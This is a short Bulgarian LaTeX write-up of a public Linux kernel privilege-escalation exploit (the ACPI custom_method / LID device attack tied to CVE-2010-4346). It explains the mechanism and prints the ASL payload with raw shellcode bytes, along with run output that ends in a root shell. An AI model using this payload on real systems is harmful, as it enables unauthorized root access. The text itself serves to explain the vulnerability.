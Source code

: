 \documentclass[a4paper,12pt,leqno]{article}
\begin{document}
\paragraph{}
Публикация за exploit излиза на 2010-12-18. Автор е Jon Oberheide\footnote{\url{http://www.exploit-db.com/exploits/15774/}}.
\paragraph{}
Той компилира ASL\footnote{ACPI Source Language} код до AML\footnote{ACPI Machine Language}, който презаписва ACPI методa, използван при промяна на статуса на LID устройството (при отваряне и затваряне на капака на лаптоп). Когато методът се извика, той презаписва \textit{OperationRegion} на физическият адрес, където \textit{sys\_futimesat} се намира и презаписва паметта чрез \textit{Store}, като по този начин стига до privilege escalation при извикването на \textit{sys\_futimesat}.
\begin{verbatim}
DefinitionBlock ("lid.aml", "SSDT", 2, "", "", 0x00001001) {
  Method (\_SB.LID._LID, 0, NotSerialized) {
    OperationRegion (KMEM, SystemMemory, PHYADDR, 0x392)
    Field(KMEM, AnyAcc, NoLock, Preserve) {
      HACK, 0x392
    }
    Store (Buffer () {
      0x55, 0x48, 0x89, 0xe5, 0x53, 0x48, 0x83, 0xec,
      0x08, 0x48, 0xc7, 0xc3, 0x24, 0x24, 0x24, 0x24,
      0x48, 0xc7, 0xc0, 0x24, 0x24, 0x24, 0x24, 0xbf,
      0x00, 0x00, 0x00, 0x00, 0xff, 0xd0, 0x48, 0x89,
      0xc7, 0xff, 0xd3, 0x48, 0xc7, 0xc0, 0xb7, 0xff,
      0xff, 0xff, 0x48, 0x83, 0xc4, 0x08, 0x5b, 0xc9,
      0xc3 }, HACK)
    Return (One)
  }
}
\end{verbatim}
\paragraph{}
Този exploit се отнася само за 64-битови ОС и зависи от наличието на LID устройство.
\begin{verbatim}
$ gcc american-sign-language.c -o american-sign-language
$ ./american-sign-language
[+] resolving required symbols...
[+] checking for world-writable custom_method...
[+] checking for an ACPI LID device...
[+] poisoning ACPI tables via custom_method...
[+] triggering ACPI payload via LID device...
[+] triggering exploit via futimesat...
[+] launching root shell!
# id
uid=0(root) gid=0(root) groups=0(root)
\end{verbatim}


\section{CVE-2010-4346 CVSS Score 2.1}
\end{document}
